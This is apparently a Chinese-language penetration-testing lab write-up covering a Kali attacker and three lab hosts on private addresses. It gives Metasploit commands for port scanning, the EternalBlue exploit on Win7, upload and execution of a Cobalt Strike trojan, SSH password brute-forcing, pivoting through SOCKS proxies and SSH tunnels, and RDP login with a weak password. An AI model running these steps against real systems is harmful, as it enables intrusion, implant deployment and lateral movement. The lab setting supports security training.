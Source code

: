 ## 一、环境介绍

### 1、攻击主机

```php
# Kali
	IP：192.168.174.137
```

### 2、受害主机

```php
# Win7
	IP1：192.168.174.141
	IP2：192.168.184.140
```

```php
# Centos7
	IP1：192.168.184.142
	IP2：192.168.194.140
```

```php
# Winserver 2008
	IP：192.168.194.141
```



## 二、攻击实验

### 1、Win7

​	- 永恒之蓝

#### 		1.1、信息收集

```php
# 端口扫描
		msf6 > search portscan
		msf6 > use 5
		msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.174.141
		msf6 auxiliary(scanner/portscan/tcp) > set THREADS 40
		msf6 auxiliary(scanner/portscan/tcp) > set TIMEOUT 500
		msf6 auxiliary(scanner/portscan/tcp) > set PORTS 1-1000
		msf6 auxiliary(scanner/portscan/tcp) > run 
		# 存在135、139、445端口
```

![image-20220531221043894](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220531221043894.png)

#### 		1.2、威胁分析

```php
	445端口对应历史漏洞：永恒之蓝ms17_010
```

#### 		1.3、漏洞攻击

```php
# 漏洞检测
	msf6 auxiliary(scanner/portscan/tcp) > search ms17_010
	msf6 auxiliary(scanner/portscan/tcp) > use 3
	msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.174.141
	msf6 auxiliary(scanner/smb/smb_ms17_010) > run
```

![image-20220531224945271](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220531224945271.png)

```php
# 漏洞利用
	msf6 auxiliary(scanner/smb/smb_ms17_010) > use 0
	msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.174.141
	msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

![image-20220531224957301](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220531224957301.png)

#### 		1.4、权限维持

```php
# CobaltStrik 启动
	1、启动服务端
		# cd cobaltstrike4.3 
		./teamserver 192.168.174.137 1234
	2、启动客户端（另起窗口）
		# cd cobaltstrike4.3
		# ./cobaltstrike        
```

```php
# CobaltStrik 生成木马
	1、点击Attacks -> Packages -> Windows Executable 
	2、点击Listener 选择监听服务器
	3、Generate 生成木马
```

![image-20220531231625986](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220531231625986.png)

![image-20220531231645611](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220531231645611.png)

```php
# MSF 发送并执行木马
	meterpreter > upload /root/shell.exe C:\
	meterpreter > execute -f c:\\shell.exe
```

![image-20220531231814230](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220531231814230.png)

![image-20220531231953347](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220531231953347.png)

```php
# 成功上线
```

![image-20220531232047358](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220531232047358.png)

#### 		1.5、内网探测

```php
# 查看路由
	meterpreter > arp -a
	# 发现存活主机192.168.184.141
```

![image-20220531232919223](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220531232919223.png)

```php
# 新建路由
	msf6 exploit(windows/smb/ms17_010_eternalblue) > route add 192.168.184.141 255.255.255.0 3
```

![image-20220531232833831](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220531232833831.png)

### 2、Centos7

​	- ssh爆破

#### 		2.1、信息收集

```php
# 端口扫描
	msf6 auxiliary(scanner/ssh/ssh_login) > search portscan
	msf6 auxiliary(scanner/ssh/ssh_login) > use 5
	msf6 auxiliary(scanner/portscan/tcp) > set PORTS 1-1000
	msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.184.142
	msf6 auxiliary(scanner/portscan/tcp) > run
	# 存在22端口
```

![image-20220601012554544](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220601012554544.png)

#### 		2.2、威胁分析

```
	22端口对应ssh服务，尝试ssh弱口令爆破
```

#### 		2.3、漏洞攻击

```php
# 选择爆破模块
	msf6 auxiliary(scanner/portscan/tcp) > search ssh_login
	msf6 auxiliary(scanner/portscan/tcp) > use 0
```

```php
# 配置爆破模块并开启攻击
	msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.184.142
	msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
	msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/legion/wordlists/ssh-password.txt
	msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 30
	msf6 auxiliary(scanner/ssh/ssh_login) > run
```

```php
# 爆破成功，切换成交互式Shell
	msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 5
	python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20220601013544155](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220601013544155.png)

#### 		2.4、内网探测

```php
# 查看路由
	[root@master ~]# arp -a
	# 发现存活主机192.168.194.141
```

![image-20220601013752692](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220601013752692.png)

```php
# 新建路由
	msf6 auxiliary(scanner/ssh/ssh_login) > route add 192.168.194.141 255.255.255.0 5
```

![image-20220601013841525](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220601013841525.png)

### 3、Winserver 2008

​	- 3389弱口令

#### 		3.1、信息收集

```php
# 端口扫描
	msf6 auxiliary(scanner/ssh/ssh_login) > search portscan
	msf6 auxiliary(scanner/ssh/ssh_login) > use 5
	msf6 auxiliary(scanner/portscan/tcp) > set PORTS 1-10000
	msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.194.141
	msf6 auxiliary(scanner/portscan/tcp) > run
	# 存在22端口
```

![image-20220601014911354](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220601014911354.png)

#### 		3.2、威胁分析

```
	3389端口为Windows远程桌面，尝试Adminitrator配合弱口令登录
```

#### 		3.3、漏洞攻击

```php
# 配置主机代理
	1、msf配置socks
		msf6 auxiliary(scanner/ssh/ssh_login) > search socks
		msf6 auxiliary(scanner/ssh/ssh_login) > use 0
		msf6 auxiliary(server/socks_proxy) > run -j
	2、kali配置socks文件中的代理端口
		# vim /etc/proxychains4.conf
			socks5 127.0.0.1 1080
```

```php
# 配置主机2ssh隧道代理
	1、kali配置ssh隧道
		# proxychains ssh -qTfnN -D 1081 root@192.168.184.142
	2、kali修改socks文件中的隧道端口
		# vim /etc/proxychains4.conf
			socks5 127.0.0.1 1081
```

```php
# 连接主机3
	1、连接并创建共享文件夹，用于传输木马等
	proxychains rdesktop -u Administrator -p QWer1234 192.168.194.141:3389 -r disk:abc=/root/
```

```php
# 连接成功
```

![image-20220601130441098](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220601130441098.png)

